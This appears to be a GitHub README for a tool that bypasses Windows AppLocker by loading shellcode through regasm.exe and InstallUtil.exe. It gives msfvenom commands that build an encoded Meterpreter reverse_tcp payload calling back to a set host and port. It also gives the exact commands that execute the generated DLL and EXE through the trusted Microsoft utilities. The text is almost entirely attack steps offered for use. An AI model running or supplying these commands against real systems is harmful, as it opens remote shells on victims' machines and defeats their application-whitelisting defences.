 # Regasm_InstallUtil_ApplockerBypass
AppLocker Bypass With Regasm/InstallUtil

RegasmBypass 使用方法
=============

1. Modify shellcode.txt file and add ShellCode generated by msfvenom, Example:msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.231.138 lport=4444 -e x8
6/shikata_ga_nai -i 15 -f csharp

2.  Generate Success, Name : RegasmBypass.dll

3.  Add the generated RegasmBypass.dll to Regasm.exe, Example: C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U RegasmBypass.dll



InstallUtilBypass 使用方法
=============

1. Modify shellcode.txt file and add ShellCode generated by msfvenom, Example:msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.231.138 lport=4444 -e x8
6/shikata_ga_nai -i 15 -f csharp

2.  Generate Success, Name : InstallUBypass.exe

3.  Add the generated InstallUBypass.exe to InstallUtil.exe, Example: C:\Windows\Microsoft.NET\Framework\v2.0.30319\InstallUtil.exe /U InstallUBypass.exe


![](demo.png)
